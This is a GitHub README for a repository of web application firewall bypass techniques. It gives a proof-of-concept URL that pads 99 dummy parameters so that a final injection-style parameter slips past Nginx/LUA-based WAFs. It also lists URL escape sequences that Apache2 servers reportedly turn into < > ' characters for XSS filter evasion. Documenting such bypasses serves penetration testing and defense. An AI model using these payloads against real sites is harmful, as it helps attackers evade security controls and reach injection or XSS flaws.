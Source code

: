 # Bypassing-Web-Application-Firewalls-And-XSS-Filters
This repository contains some documented WAF bypass exploits and a series of python scripts for generating weird character combinations and lists for BurpSuite Pro for bypassing web application firewalls (WAF) and XSS filters.

## Nginx/LUA 100 Request Limitation Exploit
*Update October 2018*
As detiled in the recently disclosed Cloudflare vulnerability, several Nginx/LUA based WAF implementations have a limitation where only 100 requests (GET/POST requests) can be processed before the WAF is no longer able to see them.

> “Nginx is a web server that is responsible for processing web requests. It is a stable and versatile tool that allows developers to focus on the implementation of WAF through different scripts written in LUA. Most of these open source WAF’s have the same problem: they don’t take into account that the module responsible for the integration of LUA in Nginx (lua-nginx-module) doesn’t allow access to all the information of a request.”

> ngx.req.get_uri_args()
some note from https://github.com/openresty/lua-nginx-module#ngxreqget_uri_args
“Note that a maximum of 100 request arguments are parsed by default (including those with the same name) and that additional request arguments are silently discarded to guard against potential denial of service attacks.”

Proof of concept 100 request parameters for WAF bypass exploit:
```
/test.php?&a0=0&a1=1&a2=2&a3=3&a4=4&a5=5&a6=6&a7=7&a8=8&a9=9&a10=10&a11=11&a12=12&a13=13&a14=14&a15=15&a16=16&a17=17&a18=18&a19=19&a20=20&a21=21&a22=22&a23=23&a24=24&a25=25&a26=26&a27=27&a28=28&a29=29&a30=30&a31=31&a32=32&a33=33&a34=34&a35=35&a36=36&a37=37&a38=38&a39=39&a40=40&a41=41&a42=42&a43=43&a44=44&a45=45&a46=46&a47=47&a48=48&a49=49&a50=50&a51=51&a52=52&a53=53&a54=54&a55=55&a56=56&a57=57&a58=58&a59=59&a60=60&a61=61&a62=62&a63=63&a64=64&a65=65&a66=66&a67=67&a68=68&a69=69&a70=70&a71=71&a72=72&a73=73&a74=74&a75=75&a76=76&a77=77&a78=78&a79=79&a80=80&a81=81&a82=82&a83=83&a84=84&a85=85&a86=86&a87=87&a88=88&a89=89&a90=90&a91=91&a92=92&a93=93&a94=94&a95=95&a96=96&a97=97&a98=98&a=information_schemas
```


References:
https://github.com/p0pr0ck5/lua-resty-waf/issues/280
https://latesthackingnews.com/2018/10/26/cloudflare-waf-bypass-vulnerability-discovered/

## WAF Funky Characters Testing
These python scripts have been created to fuzz wierd combinations:

 * URL Escape Characters 
 * HTML Escape Characters
 * Binary Characters
 
These scripts were created during an assessment, while trying to bypass a Web Application Firewall (WAF) in order to exploit a XSS vulnerability.
Differnt webservers and browsers interpret URL and strange characters differently which could lead to the bypassing of security controls.
When I tried to send a > or < character the WAF would block the request.

The following URL escapes I have noticed are traslated to < > ' by Apache2 based web servers / WAF applications:

%(N%(n%)S%)U%)^%)s%)u%*C%*E%*c%*e%,.%.#%1N%1n%2S%2U%2^%2s%2u%3C%3E%3c%3e%5.%7#%:C%:E
%:c%:e%HN%Hn%IS%IU%I^%Is%Iu%JC%JE%Jc%Je%L.%N#%XN%Xn%YS%YU%Y^%Ys%Yu%ZC%ZE%Zc%Ze%\.%^#
%hN%hn%iS%iU%i^%is%iu%jC%jE%jc%je%l.%n#%xN%xn%yS%yU%y^%ys%yu%zC%zE%zc%ze%|.



